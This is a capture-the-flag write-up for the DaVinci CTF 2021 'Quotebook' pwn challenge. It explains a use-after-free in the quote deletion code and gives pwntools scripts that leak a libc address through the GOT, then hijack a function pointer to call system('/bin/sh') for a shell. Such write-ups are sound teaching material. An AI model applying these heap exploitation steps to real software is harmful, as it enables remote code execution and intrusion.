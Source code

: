 +++
title = "[DaVinciCTF 2021 - pwn] Quotebook"
tags = ["ctf", "DaVinciCTF 2021", "pwn", "heap", "2021", "supersnail", "aaSSfxxx"]
date = "2021-03-15"
+++

# Da Vinci CTF 2021 - Quotebook (499 pts)
The subject of this task was:

>
> I created this amazing service to store all my famous quotes. Can you get the flag?
> 
> nc challs.dvc.tf 2222

We are given the binary, the source code for it and the libc used on the server. We'll need to find a vuln into the binary to get a shell and grab a flag from the server (typical pwn task).

## Source analysis

When looking at the source code, we can see that a quote is defined like this:
```c
typedef struct quote_t quote_t;
struct quote_t
{
    char * content;
    unsigned int content_size;
    char * title;
    unsigned int title_size;
    void (*write)(quote_t *);
    void (*read)(quote_t *);
};
```

and we have an array to store the quotes with a variable which indexes the "current" quote:
```c
quote_t * book[NB_PAGE];
unsigned int book_ctr;
```

So, when a quote is created, a buffer of `sizeof(quote_t)` is allocated, then the program asks the title and content size, to allocate buffers from the given size. Then the title and contents are read from `stdin`.

The interesting things happen when freeing a quote:
```c
    int choice = get_choice("Quote number");
    if(choice < 1 || choice >= book_ctr + 1)
    {
        puts("[!] Error : wrong quote number !");
    }
    else
    {
        free(book[choice - 1]);
        book_ctr--;
    }
```

First of all, the buffers containing the title and quote are not freed (enjoy ur memory leak), and even freed, the pointer is still present on the `book` array, and the book_ctr is decremented (which is useless since you can control which entry you want to free).
So from there we can trigger an use-after-free vulnerability.

## Leaking libc address
If we create a quote and destroy it afterwards, the `book` array still contains the address of the freed buffer. This means that if we can control program allocations, then we can write anything we want on that buffer, while the program still believes it's a `quote_t` structure.

And remember, we can allocate buffers from the size we want while creating a quote, and write what we want on it. And since we can list quotes:
```c
void quote_read(quote_t * quote)
{
    printf("[+] %s", quote->title);
    printf("[>] %s", quote->content);
}
```
, if `content` or `title` point to the binary's GOT section, then we can leak a libc's function address, and then getting the libc base.

But we have to be careful, because `book_ctr` is decremented, if we only create one quote and remove it, its pointer will be overwritten by the new quote we create. So let's create 3 quotes, with buffers of size 1. The heap will look like something like this:
```
-----------------------------------------------
| first struct | second struct | third struct |
-----------------------------------------------
    book[0]        book[1]         book[2]
```
The small buffers we allocated are placed in another heap arena (since they are 1 bytes long)

Now, we'll delete the first two structs, the heap will now look like this:
```
------------------------------------------------
| freed chunk  |  freed chunk  |  third struct |
------------------------------------------------
    book[0]        book[1]         book[2]
```

And this time we'll create a new quote (on `book[book_ctr]`), but with a sizeof(quote) length, so the heap will look like this:
```
------------------------------------------------
| book1 buffer |  freed chunk  |  third struct |
------------------------------------------------
    book[0]        book[1]         book[2]
```
We can clearly see that the freed chunk pointed by book[0] contains the second's quote buffer, and we can craft a fake `quote_t` struct with program's GOT  as title pointer.
```python
# Craft UAF with title overwriting first quote_t structure
s.sendline("2")
print(s.recvuntil('size > '))
# title size
s.sendline("1")
print(s.recvuntil(' size > '))
# content size
s.sendline("48")
s.recvuntil('Title > ')

PRINTF_ADDR = 0x404030
RANDOM_BUF = 0x4040c0
#### Craft structure to leak libc ###
# Pack content and content size
buf = pwn.pack(RANDOM_BUF, 64) + pwn.pack(1, 64)
# Pack title addr and size (printf addr in PLT)
buf += pwn.pack(PRINTF_ADDR, 64) + pwn.pack(8, 64)
# Set function pointers
buf += pwn.pack(0x401236, 64) + pwn.pack(0x401294, 64)

# Send title
s.sendline("a")
print(str(s.recv(), 'ascii'))

# Send content
s.sendline(buf)
print(str(s.recv(), 'ascii'))

# Display quote and trigger UAF
s.recv()
s.sendline("3")
print(s.recv())
s.sendline("1")
s.recvline()
leak = s.recvline() # quote contents contain printf addr
```
This way we can get the glibc's printf address, and compute system() address by doing:
```python
leak = s.recvline()
puts_leak = leak[4:4+6]
addr = pwn.unpack(puts_leak, len(puts_leak)*8)
libc_base = addr - libc.symbols["printf"]
system_addr = libc_base + libc.symbols["system"]
```

Now, let's get a shell !
## Pwning the app and getting a shell
Fortunately , the program allows us to edit a quote, this basically means replacing the old buffer's content by something else. Also, the program contains function pointers that we can overwrite to redirect to any address we want since we can craft a whole quote_t structure.

The function pointers have this prototype:
```c
    void (*write)(quote_t *);
    void (*read)(quote_t *);
```
So it would be nice to redirect the control flow to a function which takes one argument, and luckily we have: `system(char *command)` to do this.

So to get a shell we need to:
 - put the `/bin/sh` string at the beginning of the buffer
 - put system address we got from the leak before at the `write` function pointer (since `read` gets overwritten because the programs insert a newline)
 - Edit the first quote (the crafted one) to call our function pointer
 - ???
 - PROFIT

```python
# Edit the second quote so we can control first's quote buffer
s.sendline("4")
s.recv()
s.sendline("2")
# Craft our content buffer
b = b"/bin/sh\x00" + pwn.pack(1, 64)
# Padding to reach function pointers
b += b"A"* 16
b += pwn.pack(system_addr, 64) * 2
s.sendline(b)
s.recvuntil('Choice number > ')

# Edit the first quote to trigger system()
s.sendline("4")
s.recvuntil('Quote number > ')
s.sendline("1")
# Get the shell
s.interactive()
```

You can find the file [here](https://github.com/ret2school/ctf/tree/master/2021/dvctf/pwn/quotebook)
